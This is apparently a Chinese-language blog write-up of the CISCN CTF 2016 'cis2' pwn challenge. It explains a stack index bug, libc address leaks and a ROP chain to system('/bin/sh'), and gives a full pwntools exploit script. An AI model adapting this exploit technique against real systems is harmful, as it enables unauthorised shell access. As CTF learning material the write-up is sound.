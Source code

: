 title: Ciscn CTF 2016 Cis2 writeup

date: 2016/07/11 18:13:00

---

这道题最终还是本地成功远程失败，这次的原因还是too young......还是再记录一下吧。

可能是上一题折腾太久了，拿到这一题直接file看一眼strings一下就直接拖进IDA静态分析了，就是忘了例行看一下checksec和vmmap，也可能是因为这么长一段时间接触的就没有不开NX的吧，突然来个都没开NX的完全就不记得还有这茬了，看来还是修为不够。

<!--more-->

实力懵逼：
![ciscnctf_2016_cis2_writeup0.png][1]

这道题还是挺简单的，就是循环读到token中，符合％d且index在1-46的话就可以写入这个stack中，不符合％d的话就按照操作数处理：

![ciscnctf_2016_cis2_writeup1.png][2]

支持的操作数有'+','-','m','w','p','n','.','q',作用很显然：
![ciscnctf_2016_cis2_writeup2.png][3]

不过有个问题就是IDA把这里的变量名处理为stack，我觉得还是处理为values比较好，不然容易引起歧义，因为stack是main中出现过的一个变量名，用于定义values和index,大概是:

```C
values=&(stack[1]);
index=&(stack[0]);
```

所以一开始的主要思路就是先操作index指向栈中存在的__libc_start_main+245的地址，把它泄漏出来，然后再根据末12bit查版本算偏移，在操作index重写返回地址就可以了。

麻烦的就是对index的操作只能控制它任意向低地址移动，向高地址移动的话就会使用values[1]重写移向的地址。所以想要泄漏__libc_start_main+245的地址不能简单的向高处移动index，由于程序计算values[index]是通过values基址加index偏移得出来的，所以我们可以增大values基址使计算后的结果正好指向__libc_start_main+245这个地址就可以泄漏它。

于是以下图中的地址为例（0x7fffffffe220存储index指针，0x0x7fffffffe228存储values值），我们需要先向低地址移动泄漏栈地址，然后回来根据泄漏的栈地址计算修改后的values值，写入values[1]中，再使用'w'写入0x0x7fffffffe228。这个时候再使用'p'就可以泄漏__libc_start_main+245地址。
![ciscnctf_2016_cis2_writeup3.png][4]

接下来就需要类似的方式先写入values[1]再覆盖到目标地址中的方式（当然这个时候values[1]的位置也改变了），构造ROP链触发system('/bin/sh')了。

但是远程因为查不到glibc版本所以又跪了。看来查版本这招本来就不该算做正确姿势......

所以正确姿势应该是在可读可写的区域直接写入shellcode再控制EIP进去......

还是附上可怜的expolit：

```python
from pwn import *
from ctypes import *

p=process('./cis2')
# p=remote('106.75.37.31',23333)

pop_rdi_ret=int('0x400ad3',16)

def w(high,value,low):
	# first move down
	for x in range(high):
		p.sendline('w')

	# write into stack[2]
	p.sendline(str(value))
	print 'write value: '+hex(c_uint32(value).value)
	# copy into stack[1]
	p.sendline('m')

	for x in range(low):
		p.sendline('.')
	p.sendline('w')

def main():
	p.recvuntil('Fight!\n\n')

	# begin
	# first get stack addr
	for x in range(33):
		p.sendline('.')
	p.sendline('p')
	p.recvuntil('Value: ')
	addr=p.recvline().strip()
	addr=int(addr,10)

	print 'leak stack addr: '+hex(c_uint32(addr).value)
	stack_addr=addr-420
	dest_addr=stack_addr+65*4
	print 'modify base addr to: '+hex(c_uint32(dest_addr).value)

	for x in range(9):
		p.sendline('w')
	# write into stack[2]
	p.sendline(str(dest_addr))
	# copy into stack[1]
	p.sendline('+')

	for x in range(17):
		p.sendline('.')
	p.sendline('w')

	# now values[index] should point to __libc_start_main's address prefix
	# first leak libc_prefix
	p.sendline('p')
	p.recvuntil('Value: ')
	libc_prefix=p.recvline().strip()
	libc_prefix=int(libc_prefix,10)
	print 'leak libc prefix: '+hex(c_uint32(libc_prefix).value)

	# now leak libc other address
	p.sendline('.')
	p.sendline('p')
	p.recvuntil('Value: ')
	libc_addr=p.recvline().strip()
	libc_addr=int(libc_addr,10)
	print 'leak libc addr: '+hex(c_uint32(libc_addr).value)

	libc_addr=libc_addr-245
	# I used libc-database to search the version of glibc on the remote once but I get nothing.
	# So I failed to get shell from remote.
	sys_addr=libc_addr-0x21a50+0x414f0
	binsh_addr=libc_addr-0x21a50+0x161160

	#################################################################################

	# write pop gadget addr into stack 
	w(17,pop_rdi_ret,19)
	w(17,0,18)

	# write /bin/sh addr to target addr
	w(16,binsh_addr,17)
	w(15,libc_prefix,16)

	# write sys addr to target addr
	w(14,sys_addr,15)
	w(13,libc_prefix,14)

	# gdb.attach(p,'b *0x400987')
	p.sendline('q')
	# get shell
	p.interactive()

main()
```

[1]: /images/ciscnctf_2016_cis2_writeup0.png
[2]: /images/ciscnctf_2016_cis2_writeup1.png
[3]: /images/ciscnctf_2016_cis2_writeup2.png
[4]: /images/ciscnctf_2016_cis2_writeup3.png
